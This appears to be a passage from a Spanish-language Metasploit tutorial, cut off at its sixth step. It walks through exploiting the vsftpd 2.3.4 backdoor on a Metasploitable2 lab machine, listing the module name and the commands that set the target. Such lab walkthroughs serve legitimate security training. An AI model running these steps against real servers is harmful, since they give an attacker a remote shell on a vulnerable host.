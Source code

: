 #### Salir de la sesión sin cerrarla:

```bash
background
```

---

### ✅ EJEMPLO COMPLETO

#### Escenario: Atacar un servidor FTP vulnerable (Metasploitable2)

---

#### 🔹 Paso 1: Iniciar Metasploit

```bash
msfconsole
```

---

#### 🔹 Paso 2: Buscar exploit

```bash
search vsftpd
```

---

#### 🔹 Paso 3: Usar exploit

```bash
use exploit/unix/ftp/vsftpd_234_backdoor
```

---

#### 🔹 Paso 4: Ver opciones

```bash
show options
```

---

#### 🔹 Paso 5: Configurar IP de víctima

```bash
set RHOST 192.168.1.105
```

No se requiere payload, ya que este exploit abre una shell.

---

#### 🔹 Paso 6: Ejecutar
